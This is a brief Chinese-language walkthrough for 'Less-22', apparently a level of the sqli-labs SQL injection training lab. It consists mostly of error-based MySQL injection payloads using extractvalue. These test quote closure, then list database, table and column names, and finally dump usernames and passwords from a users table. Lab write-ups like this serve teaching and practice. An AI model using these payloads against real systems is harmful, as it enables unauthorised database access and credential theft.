

# Less - 22

---

# 通关教程

---

## 1、判断闭合

---

尝试如下闭合

```html
admin"
```

​​

```html
admin"#
```

​​

---

## 2、查看数据库名

---

```html
1" and extractvalue(1,concat(0x7e,database(),0x7e));#
```

​​

---

## 3、查看数据表名

---

```html
1" and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e));#
```

​​

---

## 4、查看字段名

---

```html
1" and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e));#
```

​​

---

## 5、查看字段值

---

```html
1" and extractvalue(1,concat(0x7e,(select group_concat(username,password) from users),0x7e));#
```

​​

‍
